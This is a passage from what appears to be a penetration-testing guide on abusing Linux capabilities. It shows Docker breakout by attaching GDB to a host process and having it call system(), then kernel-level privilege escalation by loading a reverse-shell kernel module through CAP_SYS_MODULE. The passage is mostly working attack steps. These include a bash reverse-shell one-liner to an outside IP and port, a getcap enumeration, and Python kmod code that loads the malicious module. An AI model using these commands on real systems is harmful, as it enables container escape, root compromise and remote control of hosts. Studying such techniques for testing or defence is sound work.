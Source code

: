 **Example with environment (Docker breakout) - Gdb Abuse**

If **GDB** is installed (or you can install it with `apk add gdb` or `apt install gdb` for example) you can **debug a process from the host** and make it call the `system` function. (This technique also requires the capability `SYS_ADMIN`)**.**

```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```

You won’t be able to see the output of the command executed but it will be executed by that process (so get a rev shell).

## CAP\_SYS\_MODULE

[**CAP\_SYS\_MODULE**](https://man7.org/linux/man-pages/man7/capabilities.7.html) allows the process to load and unload arbitrary kernel modules (`init_module(2)`, `finit_module(2)` and `delete_module(2)` system calls). This could lead to trivial privilege escalation and ring-0 compromise. The kernel can be modified at will, subverting all system security, Linux Security Modules, and container systems.\
**This means that you can** **insert/remove kernel modules in/from the kernel of the host machine.**

**Example with binary**

In the following example the binary **`python`** has this capability.

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_module+ep
```

By default, **`modprobe`** command checks for dependency list and map files in the directory **`/lib/modules/$(uname -r)`**.\
In order to abuse this, lets create a fake **lib/modules** folder:

```bash
mkdir lib/modules -p
cp -a /lib/modules/5.0.0-20-generic/ lib/modules/$(uname -r)
```

Then **compile the kernel module you can find 2 examples below and copy** it to this folder:

```bash
cp reverse-shell.ko lib/modules/$(uname -r)/
```

Finally, execute the needed python code to load this kernel module:

```python
import kmod
km = kmod.Kmod()
km.set_mod_dir("/path/to/fake/lib/modules/5.0.0-20-generic/")
km.modprobe("reverse-shell")
```
